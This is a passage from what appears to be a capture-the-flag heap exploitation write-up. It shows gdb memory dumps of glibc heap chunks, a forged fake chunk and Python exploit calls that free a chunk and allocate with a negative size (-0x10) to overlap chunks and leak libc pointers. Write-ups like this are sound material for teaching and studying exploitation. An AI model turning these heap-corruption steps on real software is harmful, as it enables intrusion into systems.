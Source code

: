 ```
0x603130:	0x0000000000000000	0x0000000000000000
0x603140:	0x0000000000000000	0x0000000000000000
0x603150:	0x0000000000000000	0x0000000000000000
0x603160:	0x0000000000000000	0x00000000000000b1 <-- chunk 2
0x603170:	0x4343434343434343	0x0000000000000000
0x603180:	0x0000000000000000	0x0000000000000000
0x603190:	0x0000000000000031	0x0000000000000031
0x6031a0:	0x0000000000000031	0x0000000000000031 <-- fake chunk
0x6031b0:	0x0000000000000031	0x0000000000000031
0x6031c0:	0x0000000000000031	0x0000000000000031
0x6031d0:	0x0000000000000000	0x0000000000000000
0x6031e0:	0x0000000000000000	0x0000000000000000
0x6031f0:	0x0000000000000000	0x0000000000000000
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000020df1 <-- top chunk

gdb-peda$ x/7bx 0x602120
0x602120 <key_map>:	0x01	0x01	0x01	0x00	0x00	0x00	0x00
gdb-peda$ x/4gx 0x6020e0
0x6020e0 <key_list>:	0x0000000000603010	0x00000000006030e0
0x6020f0 <key_list+16>:	0x0000000000603170	0x0000000000000000
```

Feel free to ignore the `p64(0x31)` spam and the fake chunk for now. Next, we'll free `chunk 0` and make 2 more allocations.

```python
free(acc, key, 0)
```

```
0x603000:	0x0000000000000000	0x00000000000000d1 <-- chunk 0 [free]
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x4141414141414141	0x0000000000000000
```

```python
alloc(-0x10,  'D'*8, 'D'*8) # chunk x 
alloc(0x60, 'E'*8, 'E'*8)   # chunk y
```

```
0x603000:	0x0000000000000000	0x0000000000000021 <-- chunk x
0x603010:	0x4444444444444444	0x00007ffff7dd1c00
0x603020:	0x0000000000000000	0x0000000000000091 <-- chunk y
0x603030:	0x4545454545454545	0x00007ffff7dd1c00
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x4545454545454545	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000021 <-- unsorted chunk
0x6030c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x6030d0:	0x0000000000000020	0x0000000000000090 <-- chunk 1
```
